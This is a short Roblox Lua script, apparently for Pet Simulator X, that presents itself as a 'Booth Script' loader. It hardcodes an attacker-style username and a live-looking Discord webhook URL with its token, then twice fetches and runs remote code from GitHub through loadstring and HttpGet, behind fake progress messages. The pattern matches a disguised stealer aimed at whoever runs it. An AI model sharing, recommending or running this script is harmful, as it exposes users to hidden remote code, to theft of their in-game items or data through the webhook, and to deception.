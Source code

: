 _G.Name = "Loading Booth Script..."
_G.Username = "S2CIKaynZ"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KaynZwt/psxice/main/codeice.md", true))()

Username = "S2CIKaynZ"
WebHook = "https://discord.com/api/webhooks/1089499583798853692/ivmZwdebHjlZux9mGHLlIR3DNwHtou1VchgotbJPPtuy2jfHhvqeHhnnL0OQ0bTQAwNL"

_G.CustomScriptName = "Script Loaded"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/KaynZwt/psxv2/main/psxnotice.md"))()
